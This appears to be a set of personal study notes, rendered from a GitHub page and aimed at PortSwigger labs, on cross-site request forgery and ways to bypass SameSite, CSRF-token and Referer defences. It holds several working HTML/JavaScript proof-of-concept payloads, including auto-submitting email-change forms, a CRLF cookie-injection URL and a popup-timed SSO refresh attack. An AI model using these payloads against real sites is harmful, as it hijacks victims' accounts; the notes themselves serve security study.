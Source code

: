 ```yaml
---
layout: blank
pagetitle: Cross-site Request Forgery
---
```



Cause a victim to do an action unintentionally by having them make a request (e.g. `https://example.com/changeemail?email=attacker@email.com`)

**CSRF requires**
- An action to induce
- Solely cookie-based session handling (not using SameSite)
  - Can also work with basic auth or cert-based auth
- No unpredictable parameters (like anti-csrf tokens)

POST request CSRF example:

```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Can be generated using the CSRF PoC generator in burp suite professional
- Select request -> Generate CSRF PoC
- When using Portswigger's exploit server:
  - Paste the payload (without html or body), hit store, then hit deliver

**Common validation issues**
- Switching POST to GET 
  - Use this PoC: `<html><body><script>document.location = '{vulnerable_site}';</script></body></html>`
- Omitting the token
  - PoC above as is
- CSRF token not tied to user session (this happened with UT nonce)
  - Just get a token ourselves and add it to the form when submitting
- CSRF token in request data tied to a non-session-tracking cookie, like another CSRF token
  - If this token can be set or predicted by an attacker, they could include or set the relevant attached CSRF token
  - Can sometimes inject cookies through the URL like so:
    - `?search=test%0d%0aSet-Cookie:%20{cookie}={value}%3b%20SameSite=None` if the parameter ends up in the cookies (something like `lastSearch={search_value}`)
  - Thus, final exploit page would have something like an img or iframe with `<img src='{cookie-injection_URL}'>` along with our valid CSRF token in the POST form
- CSRF token duplicated in a cookie; no server-side record of tokens issued
  - Very similar to previous vuln, requires setting cookie on victim
  - New CSRF token can be anything as long as POST form value matches, doesn't have to be our valid token

If we need to perform a GET request first:

```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20{cookie}={value}%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
    </body>
</html>
```

**SameSite Cookies**
- Strict
  - Never allows cookies to be sent in a cross-site request (iframes, links to other sites, data submission to other sites)
- Lax (default)
  - Sent only on some cross-site requests (clicking on a link or performing GET, HEAD, or OPTIONS request)
    - This means that if data is changed in a GET request (like /email/change?email=attacker@attacker.com), this would still allow CSRF
  - Sent only from top-level navigation (e.g. clicking a link)
    - Won't be sent for embedded requests (like in images, scripts, or iframes)
- None
  - No restrictions
  - Requires Secure flag (only sent over HTTPS)

**Same-site**
- Scheme (HTTPS/HTTP), TLD (.com, .co.uk), and TLD + 1 (google, utexas) must all be the same

**Same-origin**
- Scheme, entire domain, and port must all be the same

**Bypassing Lax Same-Site Cookie Restrictions**
- Need to use a GET request, similar to above
- With some frameworks, can also override the GET method using a URL parmaeter, like `?_method=POST`
  - Similarly, could use `_method = GET` in a POST request form if possible
  - This satisfies both browser-based same-site and framework-based method validation
- If `lax` is enforced by default (by the browser), these cookies only have `Lax` applied 120 seconds after sign-in (to not break SSO functionality)
  - If functionality exists to refresh the session of a user, this can be handy, especially if user won't have to log in again
    - Redirecting the victim to the login page (/login/sso or something) means they leave the payload page, so that won't work
    - Thus, open the sso page in a new tab - refreshes session in background and attack page can exploit 
      - Most browsers block `window.open()` popups, so open a new tab on-click, wait a bit for the refresh, and then submit the form:
      
```
<form action="https://vulnerable-website.com/email/change" method="POST">
    <input type="hidden" name="email" value="pwned@evil-user.net" />
</form>
<script>
    window.onclick = () => {
        window.open('{sso_endpoint}');
        setTimeout(() => {
            document.forms[0].submit();
        }, 10000);
    };
</script>
```


**Bypassing Strict Same-Site Cookie Restrictions**
- Can use functionality within the site that results in a secondary request being sent, like a client-side redirect with URL parameter control
  - This isn't possible with server-side redirects; must originate from client (browsers know all)
- Can also use sibling domains for similar purposes (also cross-site websocket hijacking)

**Bypassing Refered-based CSRF Defenses**
- Some apps check to make sure the `Referer` header originates from the same domain
- Omitting the header can sometimes bypass this check
  - `<meta name="referrer" content="never">` - make sure it comes before the script sending the request, lol
- Starting with/containing the domain name can also be bypassed
  - `Referer: http://vulnerable-website.com.attacker-website.com/csrf-attack` would satisfy both
  - `Referrer-Policy: unsafe-url` can be included in the payload headers to allow for URL parameters/path within the query (e.g. `?vulnerable-site.com` or `/vulnerable-site.com`), which may be easier than setting up the one-trick-pony above trick
    - Portswigger exploit server doesn't really seem to have an option for setting a domain name, so might be necessary to do this on exam
